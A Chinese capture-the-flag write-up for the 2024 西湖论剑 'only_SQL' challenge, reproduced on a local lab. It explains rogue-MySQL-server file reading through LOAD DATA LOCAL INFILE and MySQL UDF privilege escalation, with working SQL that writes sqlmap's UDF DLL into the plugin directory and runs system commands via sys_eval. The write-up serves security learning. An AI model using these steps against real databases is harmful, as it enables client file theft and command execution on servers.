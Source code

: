 ## 1.only_SQL
本题由于环境原因，只存在理论复现
我们首先总结两个知识点 
> 1.SQL恶意文件下载
> 2.UDF提权

这里仅复现知识点，因为题目环境不存在，暂时无法完整的复习题目的完整操作

### 0x01-SQL恶意文件下载

#### 基本SQL语句预知
```
LOAD DATA INFILE
```
语句用于快速地从一个文本文件中读取行，并写入一个表中，文件名必须为一个字符串
LOAD DATA INFILE是 `select ... INTO OUTFILE` 的相对语句，LOAD是把文件中的内容读入表中，而INTO，则是把表中数据写入文件中
还有一个LOAD DATA LOCAL INFILE ，即我们可以把MYSQL客户端本地文件中的内容insert到某张表中

稍微想一下，我们如果想要得到靶机上的某个文件的内容，肯定只能用LOAD DATA LOCAL INFILE，因为最终得到文件内容的是服务端，我们是构造恶意SQL服务端，然后获取到客户端的内容。
现在我们物理机上开一个SQL服务 ，然后用kali机当作客户机去连接物理机的MYSQL服务

![]([2024西湖论剑/only_sql/img/Pasted image 20240203143822.png](https://github.com/Stoocea/CTF_Self_Re0/edit/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/Pasted image 20240203143822.png))

这个时候就将我们客户端上的/etc/passwd的内容给抓取到了服务端上

#### 漏洞原理
上述过程的问题在于，客户端发送哪个文件的内容取决于服务端想要哪个文件，如果服务端是一个恶意MYSQL服务，它可以读取任意文件内容，就与我们刚才所读取的/etc/passwd一样
基本步骤如下
```
1.用户在客户端输入 ：load data local file “/data.txt” into table test;

2.客户端->服务端：我想把我本地的data.txt文件插入到test表中

3.服务端->客户端：先把你本地的data文件的内容给我

4.客户端->服务端：发送data文件内容
```
需要了解的是
1.
事实上绝大部分的客户端连接服务端的实现里，第一步和第二步都不是必要的，客户端发送任意的查询给服务器，服务端都会返回文件发送的请求，而且大部分客户端在连接服务端时都会有一些服务器配置的查询，所以使用这些客户端，只要创建了到恶意MYSQL服务器的连接，那么客户端所在的服务器上的所有文件都有可能泄露
2.
MYSQL客户端如果想要实现获取本地文件写到服务器MYSQL表中的功能，必须开启 `--enable-local-infile` 选项，而绝大部分的客户端是开启了这一选项的，比如开启这个选项是JDBC驱动的一个创建连接的配置项

##### 攻击流程
```
1.攻击者开启伪造的恶意MYSQL服务器，使受害者客户端连接恶意MYSQL服务器

2.受害者向恶意MTSQL服务器发送请求，并尝试进行身份认证

3.恶意MYSQL服务器接受到受害者的连接请求后，发送正常的请求，并且夹带LOAD DATA LOCAL INFILE语句的请求，来读取客户端的敏感文件

4.受害者首先会验证客户端的身份认证请求，然后会执行之后LOAD DATA LOCAL INFILE的语句

5.恶意服务器上存入客户端的敏感文件内容

```

具体的实现脚本，可以参考如下
-  [https://github.com/rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)
- [https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)

接下来是漏洞复现：
首先我们先在kali机上运行上面的脚本，开启一个虚假的MYSQL服务，并且将里面的指定读取的文件为 `H:\\1.txt`
这里是准备读取我物理机windows上的1.txt的内容："this is a test"

![[Pasted image 20240203163350.png]]
之后用python2去执行脚本文件，python3会有一些语法错误
![[Pasted image 20240203163446.png]]
之后会在当前目录下生成一个mysql.log文件，它不仅会记录我们之后客户端的请求信息，而且还会记录我们脚本中指定要读取的文件内容
之后我们windows物理机进行mysql连接，这里的话其实用户密码什么的随便填
![[Pasted image 20240203163605.png]]

之后我们读取一下kali机的mysql.log的内容
![[Pasted image 20240203163224.png]]

发现最新的一条记录 "INFO:Result: \x02this is a test"，说明恶意读取成功

### 0x02-UDF提权

#### 什么是UDF
UDF（user defind function）中文翻译过来就是用户自定义函数，是mysql里面用来对功能扩充的一种方式，UDF文件在windows与linux系统下的后缀分别为dll与so，即动态链接库文件，一般都是由C，或者C++编写的

#### 利用条件
1.mysql配置文件中的 secure_file_priv项设置为空，如果为null或者/tmp等指定目录，则无法自定udf文件导出位置，也就无法利用

2.CREATE权限和FILE权限

3.INSERT，UPDATE,DELETE权限如果拥有的话，则也存在利用情况

如何检测权限项呢？

1.查看当前数据库用户权限
```
select * from mysql.user where user = substring_index(user(), '@', 1)\G;
```
有时候会报错，去掉\G再尝试

![[Pasted image 20240203192156.png]]
如果有如上图的情况，权限设置前几项都是Y（yes）的话，就存在利用情况

除此之外，还要依据版本特性，因为mysql最终检索文件目录会有所不同
```
1.MYsql<5.0
导出路径随意

2. 5.0<=mysql<5.1
win2000的导出路径为C:/Winnt/udf.dll

3. Mysql >=5.1 一般是mysql文件目录下的lib/plugin，也有很多情况下 lib/plugin目录大概率不存在，需要mysql在安装时选择完整安装或者选择集成开发环境
```

UDF文件怎么生成呢？我们可以看看SQLmap的如下路径
```
sqlmap\data\udf\mysql
```

![[Pasted image 20240203195040.png]]
上面说了 动态依赖库在win和linux中的文件类型是不同的，所以存在两种，视题目环境而定
两种文件肯定是不能直接cat出来的，会是乱码，所以我们这里需要对该文件内容进行一点处理。SQLmap中的UDF文件为了防止误杀默认是经过异或编码的，但是它也有自己带的脚本解码
在sqlmap的根目录下执行这段命令（路径原因）

```bash
python extra/cloak/cloak.py -d -i data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
```
能够得到初步解码之后的udf文件，这里我们选择的是windows系统32位的脚本(我本地机用的是小p的mysql，它使用的是32位的mysql)
之后写一个python脚本将其16进制编码之后写入txt文件，之后要放入sql语句进行解码传输

```python
infile = open("./lib_mysqludf_sys.dll", "rb")

outfile = open("out.txt", "w")

def main():

    while 1:

        c = infile.read(1)

        if not c:

            break

        outfile.write(hex(ord(c)))

    outfile.close()

    infile.close()

if __name__ == '__main__':

    main()
```

大致结构如下
![[Pasted image 20240203205704.png]]
这里还有一个小问题就是我们用python脚本得到的dll文件内容每个字符都带有0x前缀，这里随意用什么方法去掉0x即可


之后就是3步走，我们需要得到如下3个路径
- 1.mysql的版本
- 2mysql的安装目录
- 3.mysql的plugin路径
这三种方法只为了确定一件事：我们最终要存放的动态链接库的路径在哪，结合上面说的版本问题，确定plugin路径（本题的路径有点小绕->p1ugin）

```sql

select version();
elect @@basedir ;
show variables like '%plugin%';
----->得到结果
E:\somephp\php\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin
```
如果师傅们是像我这样的本地环境测试，还是用小p的mysql搭建的话，要事先改一下my.ini配置文件
![[Pasted image 20240203220058.png]]

之后就是把我们的dll文件的内容写入plugin目录了，用dumpfile也是为了不破坏文件结构
写入之后我们再通过将指定函数的执行内容的依赖设置为我们的恶意dll动态依赖库
```sql
select unhex('...') into dumpfile "plugin目录";


create function sys_eval returns string  SONAME 'E:\\somephp\\php\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf2.dll';
```
如出现下图报错，请确认my.ini中的plugin路径是否正确
![[Pasted image 20240203220242.png]]

之后执行函数即可
```
select sys_eval('ipconfig');
```

